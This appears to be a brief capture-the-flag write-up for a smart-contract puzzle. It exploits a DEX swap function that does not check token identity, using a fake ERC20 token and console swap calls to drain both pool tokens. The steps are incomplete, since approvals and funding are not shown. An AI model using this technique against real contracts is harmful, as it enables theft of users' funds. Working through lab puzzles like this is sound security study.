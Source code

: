 The bug in this contract is that it does not validate that the swap is between same tokens, so here is ou advantage.
Create a contract that creates our token:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MYTOKEN is ERC20 {
    constructor(uint256 initialSupply) ERC20("MYTOKEN", "MT") {
        _mint(msg.sender, initialSupply);
    }
}
```
Now we can swap for 100 of token 1 and same for token 2.
MYTOKEN = (CONTRACT_ADDRESS)
t1 = await contract.token1()
t2 = await contract.token2()

await contract.swap(MYTOKEN, t1, 100)
await contract.swap(MYTOKEN, t2, 200)

We win :)